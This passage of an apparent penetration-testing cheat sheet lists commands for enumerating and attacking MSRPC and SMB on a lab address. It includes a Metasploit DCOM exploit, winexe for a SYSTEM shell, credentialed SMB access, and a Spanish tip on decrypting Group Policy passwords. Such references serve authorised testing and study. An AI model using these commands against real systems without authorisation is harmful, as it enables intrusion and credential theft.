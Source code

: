 
## Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enum
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

## Port 139/445 - SMB


```
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

enum4linux -a 10.11.1.111

rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

smbclient -L 10.11.1.111
smbclient //10.11.1.111/tmp
smbclient \\\\10.11.1.111\\ipc$ -U john
smbclient //10.11.1.111/ipc$ -U john  

winexe -U username //10.11.1.111 "cmd.exe" --system

smbtree 10.11.1.111

nmblookup -A target

smbmap -u victim -p s3cr3t -H 10.11.1.111

dentro de \Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml está el usuario y la contraseña que se puede desencriptar con "gpp-decrypt "
```


## Port 161/162 UDP - SNMP
